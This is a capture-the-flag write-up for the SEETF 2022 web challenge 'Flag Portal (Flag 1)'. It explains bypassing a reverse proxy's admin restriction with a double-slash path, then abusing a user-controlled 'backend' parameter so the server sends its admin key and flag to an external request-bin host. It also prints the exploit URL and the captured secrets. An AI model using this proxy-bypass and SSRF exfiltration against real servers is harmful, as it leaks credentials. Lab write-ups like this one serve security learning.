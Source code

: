 ## Challenge Name: Flag Portal (Flag 1)
Author: zeyu2001  
Category: Web  
Points: 100  
Solves: 63  
<br>
>Welcome to the flag portal! Only admins can view the flag for now. Too bad you're behind a reverse proxy ¯\(ツ)/¯<br><br>
Note: There are two flags for this challenge.<br><br>
http://flagportal.chall.seetf.sg:10001

MD5: 0c4f55a57bd99f8438711c3734ccbf4f

[Download Zip File](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/files/web_flagportal.zip "Zip File")

### Approach
Opening up the source of the code, more specifically [remap.config](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/files/web_flagportal/distrib/proxy/remap.config), we see that there is a page at `http://flagportal.chall.seetf.sg:10001/admin`. However, this page is protected by the proxy that will redirect us to `http://flagportal/forbidden`. Luckily, we can easily bypass this by using `//admin` instead. This gives us a url of `http://flagportal.chall.seetf.sg:10001//admin`, which allows us to access the admin page.

Now that we can access the admin page, what do we do with it? Looking at the source code of the page in the [flagportal/server.rb](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/files/web_flagportal/distrib/flagportal/server.rb), we see the following code regarding the admin page.
```rb
elsif path == '/admin'
            params = req.params
            flagApi = params.fetch("backend", false) ? params.fetch("backend") : "http://backend/flag-plz"
            target = "https://bit.ly/3jzERNa"

            uri = URI(flagApi)
            req = Net::HTTP::Post.new(uri)
                req['Admin-Key'] = ENV.fetch("ADMIN_KEY")
                req['First-Flag'] = ENV.fetch("FIRST_FLAG")
                req.set_form_data('target' => target)

                res = Net::HTTP.start(uri.hostname, uri.port) {|http|
                http.request(req)
            }
```

Reading the code snippet, we realise a request with the first flag and admin key will be sent the the flagapi. We also see that the flagapi variable can be controlled by our url query paramters. It operates on the logic of setting it to `http://backend/flag-plz` unless we specify something else. 

Thus, we can set up a [requst bin](https://requestbin.com/) to recieve requests. To have the request sent to our request bin, we can set the url to be `http://flagportal.chall.seetf.sg:10001//admin?backend=enptarvw3f9y7.x.pipedream.net`. Note that the url you feed to the page should be a HTTP, not HTTPS, or it will error, giving you `400 Bad Request` and `The plain HTTP request was sent to HTTPS port`.

Now that the flag and admin key has been sent to the request bin, let's check them out!
![img](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups/blob/main/web/Flag%20Portal%20(Flag%201)/files/Request.png "Image")

This gives us the flag to be `SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}` and admin key to be `spendable-snoring-character-ditzy-sepia-lazily`.

### Flag
`SEE{n0w_g0_s0lv3_th3_n3xt_p4rt_bf38678e8a1749802b381aa0d36889e8}`

---
[Back to home](https://github.com/Team-Rainbow-Hash/seetf-2022-writeups)